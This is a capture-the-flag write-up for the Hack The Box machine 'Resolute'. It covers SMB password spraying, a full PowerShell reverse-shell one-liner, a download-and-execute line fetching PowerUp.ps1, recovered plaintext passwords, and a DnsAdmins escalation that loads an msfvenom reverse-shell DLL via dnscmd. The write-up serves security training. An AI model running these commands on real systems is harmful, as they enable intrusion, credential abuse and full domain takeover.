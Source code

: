 # Resolute
## Enumeration

enum4linux gave us some interesting things:
	- Some users
	- A password for marko : Welcome123!

I tried to connect as marko with the password and it was a fail 

So i decide to try with hydra to try every user with the password.
```bash 
hydra -L names.txt -P password.txt 10.10.10.169 smb
```

[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
## user part
so i can connect and enum as melanie with smbclient - smbmap	
```bash
smbmap -u melanie -H 10.10.10.169 -p Welcome123!
smbclient //10.10.10.169/SYSVOL -U melanie -p
```

i used the ruby exploit to connect on port 5985 (WinRm)

reserveshell Oneliner (not usefull here):
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.20",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

usefull privesc tool 
```bash 
iex (New-Object Net.WebClient).DownloadString(‘http://10.10.14.21:8899/PowerUp.ps1’)
```

after running windows-privesc-check2.exe:
```
Some programs/directories in the path of the user used to perform this audit have weak permissions.

The following directories in the current user's PATH can be manipulated by non-administrator users:

File C:\Users\melanie\AppData\Local\Microsoft\WindowsApps has weak permissions: ALLOW MEGABANK\melanie: FILE_ADD_FILE FILE_ADD_SUBDIRECTORY FILE_WRITE_EA FILE_DELETE_CHILD FILE_WRITE_ATTRIBUTES DELETE WRITE_DAC WRITE_OWNER

or 

The security policy setting 'User Account Control: Behavior of the elevation prompt for administrators in Admin Approval Mode' is set to 'Elevate without prompting' or 'Prompt for consent for non-Windows binaries' (default). This allows malicious programs to elevate without the user agreeing. Metasploit and other free tools can perform such escalation.

The following registry key shows the current policy setting:

    Reg key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin, Value: 5
```

```powershell
Get-ChildItem -filter *history* -Recurse -ErrorAction SilentlyContinue -Force
```

C:\pstranscripts\20191203> gci -H

-H stands for hidden files.... 

ryan Serv3r4Admin4cc123!

## root part
from here if we type :
```powershell
whoami /all
```
we can see :
```
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
```

which is the same SID
there is an explanation page for the DnsAdmin exploit :
```url 
	https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
```
need to create a malicious dll with: 
```	
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f dll > privesc.dll
```
then create a smb share:
```
	sudo smbserver.py lololol /home/floki/HackTheBox/resolute
```
dont forget our listener too :
```
nc -lvnp 4444
```
then grab into the share the malicious dll and use it

```
*Evil-WinRM* PS C:\Users\ryan\Desktop> dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.28\LOLOLOL\privesc.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\Resolute.megabank.local stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\Resolute.megabank.local start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1560
        FLAGS              :
```
